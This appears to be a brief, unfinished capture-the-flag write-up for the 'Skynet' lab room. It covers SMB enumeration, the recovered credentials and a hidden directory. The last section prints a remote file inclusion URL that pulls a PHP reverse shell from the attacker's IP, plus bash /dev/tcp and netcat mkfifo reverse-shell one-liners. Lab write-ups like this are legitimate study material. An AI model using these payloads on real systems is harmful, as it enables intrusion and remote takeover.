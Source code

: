 # Room Skynet 

```
export IP=10.10.162.178
```

## Task 1 

> What is Miles password for his emails?

We could see from our enum4linux scan that there are these shares:

```
[+] Attempting to map shares on 10.10.30.132
//10.10.30.132/print$	Mapping: DENIED, Listing: N/A
//10.10.30.132/anonymous	Mapping: OK, Listing: OK
//10.10.30.132/milesdyson	Mapping: DENIED, Listing: N/A

```

anonumous has read access? 

smb is open so we connect with anonymous:
```
smbclient //$IP/anonymous
```
No pass. To download files use `get FILENAME`. 

From gobuster we could see `http://$IP/squirrelmail/src/login.php` and log1.txt contains possible passwords.

The user is milesdyson and pass and Answer:

```
cyborg007haloterminator
```

> What is the hidden directory?

We have the smb pass for milesdyson in the first mail so we can access that.

```
smbclient -U milesdyson //$IP/milesdyson

```

Get the file in notes. Answer:

```
/45kra24zxs28v3yd
```

> What is the vulnerability called when you can include a remote file for malicious purposes?


```

```

http://10.10.162.178/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.9.3.181:80/reverse.php

printf '#!/bin/bash\nbash -i >& /dev/tcp/10.9.3.181/1235 0>&1' > /var/www/html/shell

echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.3.181
1234 >/tmp/f" > shell.sh